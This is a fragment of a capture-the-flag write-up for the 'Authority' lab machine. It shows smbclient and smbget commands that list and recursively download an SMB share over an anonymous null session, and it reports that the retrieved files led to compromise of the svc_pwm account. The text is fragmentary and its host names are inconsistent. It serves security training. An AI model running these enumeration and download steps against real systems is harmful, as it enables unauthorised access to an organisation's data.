



```sh
smbclient -U 'user'%'' -N -L  //authority.authority.htb
```


```sh
smbclient -U 'user'%'' -N //authority.authority.htb/Development
```



Okay. We are in the right path. This is form that user can use to change their password
without contacting the IT guys.



Downloading everything just to be safe 
```sh
smbget --recursive -U 'user'%'' -v smb://authority.htb.corp/Development 
```

Nice, indeed we were able to compromise the first account svc_pwm using the loot we've
found!

